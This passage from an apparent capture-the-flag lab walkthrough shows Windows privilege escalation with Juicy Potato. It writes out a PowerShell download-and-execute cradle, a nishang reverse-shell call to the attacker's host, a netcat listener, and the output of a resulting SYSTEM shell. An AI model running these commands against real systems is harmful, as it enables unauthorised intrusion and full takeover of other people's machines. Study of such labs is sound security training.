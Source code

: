 * **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.

```text
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

Then download the _shell.bat_ file on the target machine.

```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\merlin\Desktop\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\merlin\Desktop> ./jp.exe -t * -p shell.bat -l 4444Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```

We get a shell back with SYSTEM privileges!

```text
root@kali:~/Desktop/tools/potatos# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.93] 49175
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.PS C:\Windows\system32>whoami
nt authority\system
```
